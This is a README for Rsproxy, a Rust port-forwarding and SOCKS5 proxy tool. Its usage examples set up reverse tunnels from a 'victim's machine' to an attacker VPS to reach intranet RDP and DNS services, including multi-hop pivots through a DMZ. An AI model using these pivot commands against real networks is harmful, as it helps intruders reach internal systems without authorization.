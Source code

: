 # Rsproxy

Rsproxy is a lightweight port-forwarding and socks proxy tool written in Rust 🦀

## Build

The project is under development, so you need to build yourself.

```bash
git clone https://github.com/X1r0z/rsproxy
cd rsproxy
cargo build --release
```

## Feature

- TCP/UDP port forwarding (support multi network layer)
- Socks5 proxy

## Usage

### TCP Port Forwarding

Listen on `0.0.0.0:8888` and `0.0.0.0:9999`, forward traffic between them.

*specify `127.0.0.1:PORT` to listen on local address*

```bash
./rsproxy fwd -l 8888 -l 9999
```

Listen on `0.0.0.0:8888`, forward traffic to a remote address.

```bash
./rsproxy fwd -l 8888 -r 10.0.0.1:9999
```

Connect `10.0.0.1:8888` and `10.0.0.2:9999`, forward traffic between them.

```bash
./rsproxy fwd -r 10.0.0.1:8888 -r 10.0.0.1:9999
```

A basic example of accessing an intranet address through port forwarding.

```bash
# on attacker's machine
./rsproxy fwd -l 8888 -l 9999

# on victim's machine
./rsproxy fwd -r 10.0.0.1:3389 -r vps:8888

# now attacker can access 10.0.0.1:3389 through vps:9999
```

A complex example, multi-layer proxy in the intranet.

```bash
# on machine A (10.0.0.1, 172.16.0.1)
./rsproxy fwd -r 10.0.0.10:3389 -l 7777

# on machine B (172.16.0.2, 192.168.1.1)
./rsproxy fwd -r 172.16.0.1:7777 -r 192.168.1.2:8888

# on machine C (192.168.1.2, DMZ)
./rsproxy fwd -l 8888 -r vps:9999

# on attacker's machine
./rsproxy fwd -l 9999 -l 33890

# now attacker can access 10.0.0.10:3389 through vps:33890
```

Note that the command on machine B need to be executed last. Because this mode will check the connectivity between the two remote addresses.

### UDP Port Forwarding

The usage of UDP port forwarding is similar to TCP, simply add `-u` flag.

This feature may be unstable.

Note that when using **reverse** UDP port forwarding, a handshake packet will be sent to keep the client address.

Example:

```bash
# on attacker's machine
./rsproxy fwd -l 8888 -l 9999

# on victim's machine
./rsproxy fwd -r 10.0.0.1:53 -r vps:8888
```

The victim's machine will send a handshake packet to `vps:8888`, which is the attacker's machine.

The attacker's machine will remember the client address, and forward the traffic to it when user connects to `vps:9999`.

**Because of the handshake packet, the parameters must be in order and cannot be swapped.**

Another example:

```bash
# on machine A (10.0.0.1, 192.168.1.1, intranet)
./rsproxy fwd -r 10.0.0.10:53 -l 7777

# on machine B (192.168.1.2, DMZ)
./rsproxy fwd -r 192.168.1.1:7777 -r vps:8888 # this command need to be executed last

# on attacker's machine
./rsproxy fwd -l 8888 -l 9999
```

The handshake packet will be sent from machine B to the attacker's machine (port 8888). Users can connect to the intranet through port 9999.

### Socks Proxy

Rsproxy supports socks5 protocol (no authentication)

Forward socks proxy.

```bash
./rsproxy socks -l 1080
```

Reverse socks proxy.

```bash
# on attacker's machine
./rsproxy socks -l 7777 -l 8888

# on victim's machine
./rsproxy socks -r vps:7777

# now attacker can use socks proxy on vps:8888
```

## Reference

[https://github.com/EddieIvan01/iox](https://github.com/EddieIvan01/iox)
